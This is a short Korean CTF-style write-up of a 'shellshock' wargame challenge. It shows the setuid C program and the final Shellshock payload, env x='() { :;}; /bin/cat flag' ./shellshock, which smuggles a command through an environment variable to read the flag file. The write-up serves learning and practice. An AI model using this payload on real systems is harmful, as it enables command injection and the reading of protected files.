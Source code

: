 # shellshock
shellshock 에 대한 설명은 다른 사이트에서 참조하길 바란다.
bash 는 취약점이 존재하는 bash 로, 환경변수를 통해 함수를 정의한 후 임의의 명령을 추가하면 해당 명령이 실행된다.

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

최종 페이로드는 다음과 같다.

shellshock 파일이 실행될 때, 취약한 bash 로 /bin/cat flag 가 parsing 되어 실행된다.

env x='() { :;}; /bin/cat flag' ./shellshock

